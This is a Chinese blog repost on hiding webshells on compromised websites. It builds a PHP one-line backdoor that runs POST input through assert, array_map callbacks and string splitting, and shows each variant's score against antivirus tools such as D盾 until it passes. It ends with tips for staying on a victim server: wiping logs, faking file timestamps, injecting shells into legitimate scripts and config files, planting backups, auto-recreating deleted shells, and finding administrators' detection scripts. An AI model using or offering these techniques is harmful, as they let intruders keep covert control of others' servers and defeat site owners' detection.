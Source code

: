 # 如何优雅的隐藏你的 Webshell

url：https://www.wangan.com/articles/3152



拿下一个站后总希望自己的后门能够很隐蔽！不让网站管理员或者其他的 Hacker 发现，网上关于隐藏后门的方法也很多，如加密、包含，解析漏洞、加隐藏系统属性等等，但大部分已经都不实用了，随便找一个查马的程序就能很快的查出来，下面分享我总结的一些经验：

制作免杀 webshell
隐藏 webshell 最主要的就是做免杀，免杀做好了，你可以把 webshell 放在函数库文件中或者在图片马中，太多地方可以放了，只要查杀工具查不到，你的这个 webshell 就能存活很长时间，毕竟管理员也没有那么多精力挨个代码去查看。

命令执行的方法
直接执行
使用 php 函数直接运行命令，常见的函数有 (eval、system、assert) 等，可以直接调用命令执行。

@eval('echo 这是输出;');


动态函数执行
我们先把一个函数名当成一个字符串传递给一个变量，在使用变量当作函数去执行

$a="phpinfo";$a();


文件包含执行
有两个 php 文件，我们把执行命令的放在文件 b 中，使用文件 a 去包含，达到执行的效果

b.php
<?php
@eval('echo 这是输出;');

a.php
<?php
include a.php


回调函数
将想要执行命令的函数赋值给一个变量，再用一个可以调用函数执行的函数把变量解析成函数，这么说可能有点绕，看一下 array_map 函数的用法：array_map 函数中将 $arr 每个元素传给 func 函数去执行，例子：

<?php
$func = 'system';
$arr = array('whoami');
array_map($func, $arr);


PHP Curly Syntax
我们可以理解为字符串中掺杂了变量，再使用变量去拼接字符串，达到命令执行的效果

<?php
$a = 'p';
eval("{$a}hpinfo();");


php 反序列化
这是根据 php 反序列化漏洞来实现命令执行，可以先创建一个反序列化的漏洞文件，再去调用反序列化函数 unserialize

<?php

class test{
    public $a="123";
    public function __wakeup(){
        eval($this->a);
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:10:"phpinfo();";}');


php://input 方法
php://input 可以访问请求的原始数据的只读流，我们可以理解为我们传 post 参数，php://input 会读取到，这时候我们就可以加以利用了

<?php
@eval(file_get_contents('php://input'));


preg_replace 方法
preg_replace 函数执行一个正则表达式的搜索和替换。我们可以使用一个命令执行函数去替换正常的字符串，然后去执行命令

<?php
echo preg_replace("/test/e",phpinfo(),"jutst test");


ob_start
ob_start 函数是打开输出控制缓冲，传入的参数会在使用 ob_end_flush 函数的时候去调用它执行输出在缓冲区的东西

<?php
$cmd = 'system';
ob_start($cmd);
echo "whoami";
ob_end_flush();//输出全部内容到浏览器


编写免杀
上面说了那么多其实都是一句话木马的思路，每一种方式都可以写成一句话木马，而想要免杀常常会多种组合到一起，下面从最简单的木马一步步变形，达到免杀的目的

assert($_POST['x']);


这种就是最简单的一句话木马，使用 D 盾扫一下，可以看到 5 级，没有什么好说的

动态函数方法，把 assert 这个函数赋值两次变量，再把变量当成函数执行

$a = "assert";
$b = $a;
$b($_POST['x']);


回调函数方法，把 assert 函数当作参数传给 array_map 去调用执行

<?php
$fun = 'assert';
array_map($fun,array($_POST['x']));


可以看到上面的都是通过两种方法的结合，简单的处理一下，就变成了 4 级，感兴趣的可以把其他的方法都尝试一下，4 级的很简单，我们去看看 3 级的都是怎么处理的

通过上面的动态函数方法我们可以思考，函数可以当成字符串赋值给变量，那么变量也一定能当成字符串赋值给变量，但调用时需要用 $$

<?php
$a = "assert";
$c ='a';
$$c($_POST['x']);


我们在把这种方法结合到回调函数方法中，可以看到，已经是 2 级了

<?php
$fun = 'assert';
$f = 'fun';
array_map($$f,array($_POST['x']));


这时候我们看一下 D 盾中的说明：array_map中的参数可疑，我们这时候可以用函数封装一下参数

<?php
function ass(){
    $a = "a451.ass.aaa.ert.adaww";
    $b = explode('.',$a);
    $c = $b[1] . $b[3];
    return $c;
}
$b = array($_POST['x']);
$c = ass();
array_map($c,$b);


1 级了，离目标近在咫尺了，这时候我们应该考虑让一句话木马像正常的代码，在好好的封装一下

<?php
function downloadFile($url,$x){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    // assert
    $exec1=substr($ext[0],3,1);
    $exec2=substr($ext[0],5,1);
    $exec3=substr($ext[0],5,1);
    $exec4=substr($ext[0],4,1);
    $exec5=substr($ext[0],7,2);
    $as[0] = $exec1 . $exec2 . $exec3 . $exec4 . $exec5;
    $as[1] = $x;
    return $as;
}
$a = $_POST['x'];
$s  = downloadFile('http://www.baidu.com/asdaesfrtafga.txt',$a);
$b = $s[0];
$c = $s[1];
array_map($b,array($c));


再试试其他免杀工具

WebShellKiller：



安全狗：



微步云沙箱



再试试可不可以连接没有问题，完美！！



更好的隐藏 webshell 一些建议
1、拿到权限以后，把网站日志中的所有关于 webshell 的访问记录和渗透时造成的一些网站报错记录全部删除

2、把 webshell 的属性时间改为和同目录文件相同的时间戳，比如 linux 中的 touch 就是非常好的工具

3、目录层级越深越好，平时网站不出问题的话，一般四五级目录很少会被注意到，尽量藏在那些程序员和管理员都不会经常光顾的目录中比如：第三方工具的一些插件目录，主题目录，编辑器的图片目录以及一些临时目录

4、利用 php.ini 配置文件隐藏 webshell, 把 webshell 的路径加入到配置文件中

5、尝试利用静态文件隐藏一句话，然后用.htaccess 规则进行解析

6、上传个精心构造的图片马，然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马

7、靠谱的方法就是直接把一句话插到正常的网站脚本文件里面，当然最好是在一个不起眼的地方，比如：函数库文件，配置文件里面等等，以及那些不需要经常改动的文件……

8、如果有可能的话，还是审计下目标的代码，然后想办法在正常的代码中构造执行我们自己的 webshell, 即在原生代码中执行 webshell

9、webshell 里面尽量不要用类似 eval 这种过于敏感的特征，因为 awk 一句话就能查出来，除了 eval, 还有，比如:exec,system,passthru,shell_exec,assert 这些函数都最好不要用，你可以尝试写个自定义函数，不仅能在一定程度上延长 webshell 的存活时间也加大了管理员的查找难度，也可以躲避一些功能比较简陋 waf 查杀，此外，我们也可以使用一些类似:call_user_func,call_user_func_array, 诸如此类的回调函数特性来构造我们的 webshell, 即伪造正常的函数调用

10、webshell 的名字千万不要太扎眼，比如:hack.php,sb.php,x.php 这样的名字严禁出现……, 在给 webshell 起名的时候尽量跟当前目录的，其他文件的名字相似度高一点，这样相对容易混淆视听，比如：目录中有个叫 new.php 的文件，那你就起个 news.php

11、如果是大马的话，尽量把里面的一些注释和作者信息全部都去掉，比如 intitle 字段中的版本信息等等，用任何大马之前最好先好好的读几遍代码，把里面的 shell 箱子地址全部去掉推荐用开源的大马，然后自己拿过来仔细修改，记住，我们的 webshell 尽量不要用加密，因为加密并不能很好的解决 waf 问题，还有，大马中一般都会有个 pass 或者 password 字符，建议把这些敏感字段全部换成别的，因为利用这样的字符基本一句话就能定位到

12、养成一个好习惯，为了防止权限很快丢失，最好再同时上传几个备用 webshell, 注意，每个 webshell 的路径和名字千万不要都一样更不要在同一个目录下，多跳几层，记住，确定 shell 正常访问就可以了，不用再去尝试访问看看解析是否正常，因为这样就会在日志中留下记录，容易被查到

13、当然，如果在拿到服务器权限以后，也可以自己写个脚本每隔一段时间检测下自己的 webshell 是否还存在，不存在就创建

14、在有权限的情况，看看管理员是否写的有动态 webshell 监测脚本，务必把脚本找出来，crontab 一般都能看见了

原创：酒仙桥六号部队

本作品采用《CC 协议》，转载必须注明作者和本文链接
 举报

地球胖头鱼
暂无个人描述~
 0 人点赞
 推荐文章：
更多推荐...

如何批量在多台服务器上执行命令 NEW

 在使用 JSP 开发应用程序时，可能产生的安全问题有哪些？ NEW

 木马病毒常用的入侵方法有哪些？ NEW

某 VPN 的垂直越权漏洞复现

网页挂马的实现方式与防御手段

简简单单的一次钓鱼实验
 讨论数量: 0
排序：
时间
投票
(=￣ω￣=)··· 暂无内容！
请勿发布不友善或者负能量的内容。与人为善，比聪明更重要！

  帮助
关注本文


